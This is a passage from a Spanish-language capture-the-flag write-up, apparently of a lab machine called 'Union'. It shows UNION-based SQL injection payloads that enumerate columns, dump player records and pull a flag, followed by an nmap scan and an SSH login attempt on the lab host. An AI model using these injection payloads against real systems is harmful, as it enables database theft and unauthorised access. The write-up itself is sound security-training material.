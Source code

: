 ``` 
admin' union select group_concat(column_name) from information_schema.columns where table_schema="november" and table_name="players"-- -
--> player. Solo hay una columna llamada player en la tabla players.
--> Ahora saquemos la data final:

admin' union select group_concat(player) from players-- -
--> Salen todos los players registrados.

admin' union select one from flag limit 0,1-- -
--> UHC{F1rst_5tep_2_Qualify} . En el resto de limits no hay nada. Tenemos una flag. Podría hacerse igualmente con el group_concat.
```
Entiendo que esa flag sacada vale para todas las usuarias. Quiero ver en la web que pasa si la introduzco.

![Ssh_Access]({{ 'assets/img/writeups/Union/sshAccess.png' | relative_url }}){: .center-image }

Parece ser que ahora nuestra ip puede conectarse por ssh al equipo (si tenemos credenciales). Antes el puerto 22/ssh no estaba abierto. Ahora entiendo que si que estará. Puse el usuario **guise** como player antes del mensaje este, podria haber sido cualquier otro.

```
❯ nmap --open -p22 -v 10.10.11.128
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-16 18:24 CEST
Initiating Ping Scan at 18:24
Scanning 10.10.11.128 [4 ports]
Completed Ping Scan at 18:24, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:24
Completed Parallel DNS resolution of 1 host. at 18:24, 0.01s elapsed
Initiating SYN Stealth Scan at 18:24
Scanning 10.10.11.128 [1 port]
Discovered open port 22/tcp on 10.10.11.128
Completed SYN Stealth Scan at 18:24, 0.07s elapsed (1 total ports)
Nmap scan report for 10.10.11.128
Host is up (0.050s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
           Raw packets sent: 5 (196B) | Rcvd: 2 (84B)
```
¡Y si!. Ahora está abierto. Voy a probar la contraseña: UHC{F1rst_5tep_2_Qualify} para usuario guise. Pero casi seguro que no, dudo mucho que se haya creado un usuario a nivel de sistema con el player guise que he introducido en la web.
``` 
> ssh guise@10.10.11.128
```
Pero como había pensado, no funciona. Podría probar con otros players, pero no. Prefiero sacar users y passwords de la base de datos mysql. Quizás se reciclen contraseñas para ssh.
